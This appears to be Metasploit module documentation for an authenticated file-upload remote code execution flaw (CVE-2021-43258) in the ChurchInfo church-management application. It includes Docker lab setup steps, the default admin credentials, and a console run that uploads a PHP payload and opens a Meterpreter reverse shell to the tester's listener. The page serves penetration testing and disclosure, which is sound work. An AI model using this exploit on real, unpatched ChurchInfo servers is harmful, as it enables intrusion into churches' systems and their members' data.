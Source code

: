 ## Vulnerable Application
* Project Homepage: http://www.churchdb.org/
* Project Download: https://sourceforge.net/projects/churchinfo/files/

ChurchInfo is an open source PHP application used to help churches manage systems and users of the church.
There are various vulnerabilities in the ChurchInfo software which can be exploited by an
attacker, however this module targets an authenticated remote code execution (RCE) vulnerability
known as CVE-2021-43258 to execute code as the web daemon user (e.g. www-data).

ChurchInfo v1.2.13, v1.2.14, and v1.3.0 contain functionality to email users listed in the ChurchInfo database
with attachments. When preparing the email, a draft of the attachment is saved into
`/tmp_attach/`, which is a web accessible folder under the ChurchInfo web root. Before the email is sent,
the attachment draft can be loaded in the application. By uploading a malicious PHP file
as an attachment and then browsing to it on the web server, RCE can be achieved.

This vulnerability was assigned CVE-2021-43258. Version 1.3.0 was the latest version of ChurchInfo at the time
of writing and there is presently no known patch for this issue.

### Installation
Installation guides are available on the SourceForge site at https://sourceforge.net/projects/churchinfo/files/.

The following however is a quick and easy way to get most versions of ChurchInfo up and running using Docker,
which should make it a lot easier to setup and also clean up once you are finished testing things out.

1. `wget https://master.dl.sourceforge.net/project/churchinfo/churchinfo/1.3.0/churchinfo-1.3.0.tar.gz`
1. `tar -xvf churchinfo-1.3.0.tar.gz`
1. `sudo docker run -i -t -p "9090:80" -v ${PWD}/churchinfo:/app mattrayner/lamp:0.8.0-1804-php7`.
1. `sudo docker ps -a` and find the container ID that was created and which is now running.
1. `sudo docker exec -it *container ID* /bin/bash`
1. Inside the new prompt:
1. `mysqladmin -u root -p create churchinfo` and press the ENTER key when prompted for the password.
1. `cd /app/churchinfo/SQL`
1. `mysql -u root -p churchinfo < Install.sql` and press the ENTER key when prompted for the password.
1. `apt-get install nano` if you want to use Nano.
1. `nano /app/churchinfo/Include/Config.php`.
1. Set the `$sUSER` variable to `'root'`.
1. Set the `$sPASSWORD` variable to `''`.
1. Set the `$sRootPath` variable to `'/churchinfo'`. This should be default though.
1. Set the `$URL[0]` to `http://localhost/churchinfo/Default.php`.
1. Exit out of `nano` and run `/etc/init.d/apache2 restart`
1. Log in at `http://127.0.0.1:9090/churchinfo/Default.php` with the username `Admin` and password `churchinfoadmin`.
1. This should cause the app to redirect to a password change form.
1. Specify the old password, aka `churchinfoadmin` and then specify the new password twice and submit the form.
1. Go to `http://127.0.0.1:9090/churchinfo/PersonEditor.php` and fill out the form with as much detail as possible.
1. Click "Save and Add".

## Verification Steps
This module requires authenticated access to the application. After identifying a vulnerable
ChurchInfo application, there MUST be a person entry available within the database. If there are no person
entries within the database, it will not be possible to create a draft email. This draft email
will be used to place the malicious attachment into the `/tmp_attach` directory for our exploit.

1. Start `msfconsole`
1. `use exploit/multi/http/churchinfo_upload_exec`
1. Set the target `RHOST`, `APPBASE`, `USERNAME`, and `PASSWORD` values.
1. Optional: Set the target `RPORT` if the ChurchInfo server is running on a different port than port 80.
1. Optional: `set SSL true` if the target is using SSL for ChurchInfo.
1. Select the payload of choice or leave default.
1. Set the `LHOST` to your system.
1. Run the exploit with `run`, enjoy the shell!

## Options
There are a handful of options which can be used to further configure the attack or other environmental uses.

### USERNAME
The username of a valid user account for the ChurchInfo application. Default is `admin`.

### PASSWORD
The password for a valid user account for the ChurchInfo application. Default is `churchinfoadmin` based on documentation.

### APPBASE
The base directory path to the ChurchInfo application. This can and will likely
vary depending on how the application was installed. Default value is `/churchinfo/`.

### EMAIL_SUBJ
The subject of the draft email used for the exploit, the email is not sent. Default value is `Read this now!`.

### EMAIL_MESG
The message on the draft email which is used for the exploit. The email is not sent. Default value is `Hello there!`.

## Scenarios
If there are no person entries in the database, the exploit will fail. To help troubleshoot, enable verbose mode with the following:

```
set verbose true
```

This will enable additional information and details about the exploit as it is launched.

### ChurchInfo v1.3.0 with MySQL 5.7.35 on Ubuntu Linux 18.04.2 LTS (Docker Image)
```
msf6 > use exploit/multi/http/churchinfo_upload_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/churchinfo_upload_exec) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/churchinfo_upload_exec) > set RPORT 9090
RPORT => 9090
msf6 exploit(multi/http/churchinfo_upload_exec) > set PASSWORD testing123
PASSWORD => testing123
msf6 exploit(multi/http/churchinfo_upload_exec) > show options

Module options (exploit/multi/http/churchinfo_upload_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EMAIL_MESG  Hello there!     yes       Email message in webapp
   EMAIL_SUBJ  Read this now!   yes       Email subject in webapp
   PASSWORD    testing123       yes       Password to login with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      127.0.0.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       9090             yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /churchinfo/     yes       The location of the ChurchInfo app
   USERNAME    admin            yes       Username for ChurchInfo application
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.182.196   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/churchinfo_upload_exec) > set LHOST docker0
LHOST => docker0
msf6 exploit(multi/http/churchinfo_upload_exec) > run

[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Target is ChurchInfo!
[+] The target is vulnerable. Target is running ChurchInfo 1.3.0!
[+] Logged into application as admin
[*] Navigating to add items to cart
[+] Items in Cart: Items in Cart: 2
[+] Uploading exploit via temp email attachment
[+] Exploit uploaded to /churchinfo/tmp_attach/ueNYs9.php
[+] Executing payload with GET request
[*] Sending stage (39927 bytes) to 172.18.0.2
[+] Deleted ueNYs9.php
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:37790) at 2022-11-18 17:44:31 -0600


meterpreter > getpid
Current pid: 452
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 8eeaa82293b4
OS          : Linux 8eeaa82293b4 5.15.0-53-generic #59-Ubuntu SMP Mon Oct 17 18:53:30 UTC 2022 x86_64
Meterpreter : php/linux
meterpreter > 
```
